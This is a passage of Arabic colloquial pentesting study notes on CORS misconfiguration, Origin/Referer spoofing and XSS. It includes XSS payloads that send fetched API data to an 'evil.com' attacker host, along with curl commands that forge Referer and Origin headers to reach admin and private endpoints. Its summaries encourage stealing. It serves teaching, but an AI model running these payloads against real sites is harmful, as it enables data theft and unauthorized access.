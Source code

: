 - **خلاصة بالعامية:**
  - "الـ Origin مع CORS زي الحارس اللي بيقول مين يدخل ومين لأ، لو الحارس نايم أو قال كله يدخل، هتسرق اللي عايزه."

---

#### **د. الثغرات والهدف كهاكرز (Vulnerabilities & Hacking Goal):**
- **CORS Misconfiguration:** لو السيرفر بيسمح بـ `*` (الكل) أو بيثق في Origin غلط، ممكن تستغله.
- **XSS مع CORS:** لو حقنت كود في الصفحة وCORS ضعيف، تقدر تبعت بيانات لموقعك.
- **Referer Bypass:** لو السيرفر بيعتمد على Referer كحماية، زوّره.

- **مثال عملي:**
  - CORS ضعيف:
    ```
    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: *
    ```
    - استغلال: `<script>fetch('http://example.com/api').then(res=>res.text()).then(data=>location='http://evil.com?data='+data)</script>`.
  - Referer: `curl -H "Referer: http://example.com" http://example.com/admin` (تجاوز).

- **جانب عملي للبينتست:**
  - CORS: جرب Origins مختلفة: `curl -H "Origin: null" http://example.com/api`.
  - XSS: حقن: `<img src=x onerror="fetch('http://example.com/api').then(r=>r.text()).then(d=>alert(d))">`.
  - Referer: زوّر: `curl -H "Referer: https://example.com/login" http://example.com/private`.

- **خلاصة بالعامية:**
  - "لو لقيت ثغرة في CORS أو Origin أو Referer، هتبقى زي واحد لقى المفتاح في الباب، اسرق، زوّر، واعمل اللي عايزه."

---

### **خطوات عملية للاستغلال (Pentesting):**
1. **اكتشف الـ Content-Type:**
   - `curl -X POST -d "user=test&pass=123" http://example.com/login` (شوف الرد).
   - جرب أنواع غريبة: `curl -X POST -d "<script>alert(1)</script>" -H "Content-Type: text/plain" http://example.com`.

2. **اختبر Origin وReferer:**
   - `curl -H "Origin: https://evil.com" http://example.com/api` (شوف الرد).
   - `curl -H "Referer: https://example.com/admin" http://example.com/private` (تجاوز).

3. **هاجم CORS:**
   - `curl -I -H "Origin: https://attacker.com" http://example.com/api` (لو `*`، استغل).
   - حقن XSS: `<script>fetch('http://example.com/api').then(r=>location='http://evil.com?'+r.text())</script>`.

4. **استغل سوء التهيئة:**
   - لو CORS مرن: أرسل بيانات لموقعك.
   - لو Referer ضعيف: `curl -H "Referer: http://example.com" http://example.com/api/secret`.

5. **تحلل الثغرات:**
   - استخدم Burp Suite لتزوير Origin/Referer.
   - جرب XSS مع CORS: `<img src=x onerror="fetch('http://example.com/api')...">`.

---

### **خلاصة نهائية بالعامية:**
- "الـ Content-Type بيقول إزاي تبعت، Origin وReferer بيقولوا جيت منين، وCORS هو الحارس، لو عرفت تلعب فيهم صح هتخلّي السيرفر يفتحلك كل حاجة، بس خلّيك دماغ عشان متتركنش!"